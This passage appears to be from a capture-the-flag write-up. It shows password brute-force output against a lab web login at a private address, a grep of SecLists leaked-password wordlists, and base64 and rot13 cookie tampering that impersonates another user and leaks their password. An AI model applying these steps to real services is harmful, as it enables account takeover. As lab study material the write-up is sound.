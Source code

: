 ```bash
[8080][http-post-form] host: 10.0.2.19   login: guest   password: letmein
[8080][http-post-form] host: 10.0.2.19   login: venus   password: letmein
[8080][http-post-form] host: 10.0.2.19   login: magellan   password: letmein
[STATUS] 2848.67 tries/min, 8546 tries in 00:03h, 91454 to do in 00:33h, 16 active
...
```

Sidetracking, but these users exist in following wordlists from [SecLists](https://github.com/danielmiessler/SecLists) 👀
```bash
└─$ grep -REno '^(magellan|venus|guest)$' /usr/share/seclists/Passwords/* | cut -d':' -f1 | sort | uniq -c | grep '3 /'
      3 /usr/share/seclists/Passwords/bt4-password.txt
      3 /usr/share/seclists/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt
      3 /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
      3 /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
      3 /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt
      3 /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
      3 /usr/share/seclists/Passwords/darkc0de.txt
      3 /usr/share/seclists/Passwords/dutch_passwordlist.txt
      3 /usr/share/seclists/Passwords/Honeypot-Captures/multiplesources-passwords-fabian-fingerle.de.txt
      3 /usr/share/seclists/Passwords/Leaked-Databases/alleged-gmail-passwords.txt
      3 /usr/share/seclists/Passwords/Leaked-Databases/Ashley-Madison.txt
      3 /usr/share/seclists/Passwords/Leaked-Databases/fortinet-2021_users.txt
      3 /usr/share/seclists/Passwords/Leaked-Databases/honeynet2.txt
      3 /usr/share/seclists/Passwords/Leaked-Databases/honeynet.txt
      3 /usr/share/seclists/Passwords/Leaked-Databases/muslimMatch.txt
      3 /usr/share/seclists/Passwords/Leaked-Databases/phpbb-cleaned-up.txt
      3 /usr/share/seclists/Passwords/Leaked-Databases/phpbb.txt
      3 /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
      3 /usr/share/seclists/Passwords/openwall.net-all.txt
      3 /usr/share/seclists/Passwords/probable-v2-top12000.txt
      3 /usr/share/seclists/Passwords/Software/cain-and-abel.txt
      3 /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
      3 /usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt
      3 /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt
      3 /usr/share/seclists/Passwords/xato-net-10-million-passwords-dup.txt
      3 /usr/share/seclists/Passwords/xato-net-10-million-passwords.txt
```

### Leaking Passwords With Cookies

```bash
# Cookie we get when logging as guest
└─$ echo 'Z3Vlc3Q6dGhyZmc=' | base64 -d
guest:thrfg

# Replace guest with venus
└─$ echo -n 'venus:thrfg' | base64
dmVudXM6dGhyZmc=

# Replace your cookie and inspect new cookie sent by server
└─$ echo 'dmVudXM6aXJhaGY=' | base64 -d
venus:irahf

# Check second password
└─$ alias rot13="tr 'A-Za-z' 'N-ZA-Mn-za-m'" # https://stackoverflow.com/a/5442495
└─$ echo irahf | rot13
venus
```
